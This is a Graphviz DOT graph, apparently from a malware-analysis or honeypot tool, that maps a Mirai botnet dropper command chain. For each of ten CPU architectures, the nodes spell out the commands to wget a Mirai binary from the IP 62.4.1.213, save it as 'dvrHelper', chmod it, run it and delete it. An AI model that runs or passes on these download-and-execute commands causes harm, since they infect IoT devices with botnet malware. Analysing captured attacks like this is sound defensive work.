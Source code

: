 digraph {
0 [label="wget http://62.4.1.213/mirai.arm -O dvrHelper "];
0 -> 0
74 [label="chmod +x dvrHelper "];
74 -> 76 [label=";,"];
76 [label="./dvrHelper "];
76 -> 78 [label=";,"];
78 [label="rm -fr dvrHelper "];
78 -> 8 [label=";,"];
8 [label="wget http://62.4.1.213/mirai.arm7 -O dvrHelper "];
8 -> 74 [label="&,"];
74 [label="chmod +x dvrHelper "];
74 -> 76 [label=";,"];
76 [label="./dvrHelper "];
76 -> 78 [label=";,"];
78 [label="rm -fr dvrHelper "];
78 -> 16 [label=";,"];
16 [label="wget http://62.4.1.213/mirai.mips -O dvrHelper "];
16 -> 74 [label="&,"];
74 [label="chmod +x dvrHelper "];
74 -> 76 [label=";,"];
76 [label="./dvrHelper "];
76 -> 78 [label=";,"];
78 [label="rm -fr dvrHelper "];
78 -> 24 [label=";,"];
24 [label="wget http://62.4.1.213/mirai.ppc -O dvrHelper "];
24 -> 74 [label="&,"];
74 [label="chmod +x dvrHelper "];
74 -> 76 [label=";,"];
76 [label="./dvrHelper "];
76 -> 78 [label=";,"];
78 [label="rm -fr dvrHelper "];
78 -> 32 [label=";,"];
32 [label="wget http://62.4.1.213/mirai.spc -O dvrHelper "];
32 -> 74 [label="&,"];
74 [label="chmod +x dvrHelper "];
74 -> 76 [label=";,"];
76 [label="./dvrHelper "];
76 -> 78 [label=";,"];
78 [label="rm -fr dvrHelper "];
78 -> 40 [label=";,"];
40 [label="wget http://62.4.1.213/mirai.arm5n -O dvrHelper "];
40 -> 74 [label="&,"];
74 [label="chmod +x dvrHelper "];
74 -> 76 [label=";,"];
76 [label="./dvrHelper "];
76 -> 78 [label=";,"];
78 [label="rm -fr dvrHelper "];
78 -> 48 [label=";,"];
48 [label="wget http://62.4.1.213/mirai.m68k -O dvrHelper "];
48 -> 74 [label="&,"];
74 [label="chmod +x dvrHelper "];
74 -> 76 [label=";,"];
76 [label="./dvrHelper "];
76 -> 78 [label=";,"];
78 [label="rm -fr dvrHelper "];
78 -> 56 [label=";,"];
56 [label="wget http://62.4.1.213/mirai.mpsl -O dvrHelper "];
56 -> 74 [label="&,"];
74 [label="chmod +x dvrHelper "];
74 -> 76 [label=";,"];
76 [label="./dvrHelper "];
76 -> 78 [label=";,"];
78 [label="rm -fr dvrHelper "];
78 -> 64 [label=";,"];
64 [label="wget http://62.4.1.213/mirai.sh4 -O dvrHelper "];
64 -> 74 [label="&,"];
74 [label="chmod +x dvrHelper "];
74 -> 76 [label=";,"];
76 [label="./dvrHelper "];
76 -> 78 [label=";,"];
78 [label="rm -fr dvrHelper "];
78 -> 72 [label=";,"];
72 [label="wget http://62.4.1.213/mirai.x86 -O dvrHelper "];
72 -> 74 [label="&,"];
74 [label="chmod +x dvrHelper "];
74 -> 76 [label=";,"];
76 [label="./dvrHelper "];
76 -> 78 [label=";,"];
78 [label="rm -fr dvrHelper "];
78 -> 79 [label=";,"];
}
